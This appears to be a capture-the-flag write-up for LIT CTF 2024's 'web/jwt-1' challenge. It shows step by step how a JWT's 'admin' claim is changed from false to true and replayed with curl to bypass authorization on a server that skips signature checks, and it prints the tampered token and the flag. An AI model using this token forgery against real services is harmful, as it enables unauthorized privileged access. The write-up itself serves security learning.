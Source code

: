 # LIT CTF 2024: web/jwt-1
**Title:** web/jwt-1

**Description:** Welcome to my latest website! In an effort to modernize, I've moved away from traditional cookies and adopted a more advanced authentication method. Say goodbye to sessions forever! Give it a try at [http://litctf.org:31781/](http://litctf.org:31781/).
## Solution:
The description hints at the use of cookies for authentication. Here’s how you can solve it:

### Step 1: Obtain the Cookie:
Visit the site, sign up, log in, and try clicking the "GET FLAG" button. You’ll receive an `Unauthorized` response.

### Step 2: Analyze the Request:
Use your browser’s Developer Tools to inspect the request sent to [http://litctf.org:31781/flag](http://litctf.org:31781/flag). Here’s a sample `curl` command for reference:

```bash
curl "http://litctf.org:31781/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoic2hvaWlobzIiLCJhZG1pbiI6ZmFsc2V9.VPpGN6m^%^2BrNwhg^%^2BDSZ^%^2BGYDYV24eDA1ygIvW^%^2Fu50x^%^2FcSY^" ^
  -H "Referer: http://litctf.org:31781/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

### Step 3: Modify the JWT Token:
Use an online tool like [jwt.io](https://jwt.io/) to decode and modify the JWT token. Change the `admin` field from `false` to `true`. 

By tampering with the JWT, you can gain the necessary authorization to access the flag. 

### Step 4: Send the request with tampered JWT:
For this I used an online tool [Run Curl Commands Online (reqbin.com)](https://reqbin.com/curl) and sent the request:
```bash
curl "http://litctf.org:31781/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoic2hvaWlobzIiLCJhZG1pbiI6dHJ1ZX0.REbM2gVSy32YPjfXU-VeWGG4xTfdAn3RkFRiRtJHV3E" ^
  -H "Referer: http://litctf.org:31781/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

And the response we got is our flag: `LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`
